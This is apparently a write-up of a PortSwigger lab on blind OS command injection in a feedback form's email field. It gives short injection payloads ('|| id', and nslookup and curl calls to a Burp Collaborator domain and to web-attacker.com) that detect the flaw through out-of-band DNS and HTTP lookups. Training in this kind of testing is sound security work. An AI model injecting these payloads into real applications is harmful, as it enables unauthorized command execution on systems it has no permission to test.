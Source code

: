 # Blind OS command injection with out-of-band interaction | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band), you'll learn: Blind OS command injection with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Exploition

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135643.png)

In here, we can see there's a "Submit feedback" page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135708.png)

Let's try to submit one:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135743.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135751.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135807.png)

When we clicked the "Submit feedback" button, it'll send a POST request to `/feedback/submit`, with parameter `csrf`, `name`, `email`, `subject`, `message`, and the response is an empty JSON data.

Now, if the web application want to send an email to somewhere, **it could be using a Linux command called `mail`.**

That being said, we can try to do **OS command injection** in the `email` parameter:

```bash
|| id%0a
```

We **pipe (parse) the previous command into `id`**. Also, **we’ll need to provide a newline character(`\n` or `%0a` in URL encoding)**, to execute the `id` command.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140340.png)

However, there's no output of our command in the response.

With that said, it might be vulnerable to blind OS command injection.

We can use an injected command that will trigger an out-of-band network interaction with a system that we control, using OAST techniques. For example:

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

- Go to Burp Suite's Collaborator, and copy the payload:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140521.png)

- Send the payload:

**Payload:**
```bash
|| nslookup mlbzz36dwstcsyzbzens1q48lzrtfj38.oastify.com%0a
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140612.png)

- Burp Suite's Collaborator:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140627.png)

As you can see, we successfully **received 2 DNS lookups**, which means **the feedback function is indeed vulnerable to blind OS command injection**!!

**Besides from `nslookup`, we can also use `curl`:**
```bash
|| curl mlbzz36dwstcsyzbzens1q48lzrtfj38.oastify.com%0a
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140810.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140717.png)

# What we've learned:

1. Blind OS command injection with out-of-band interaction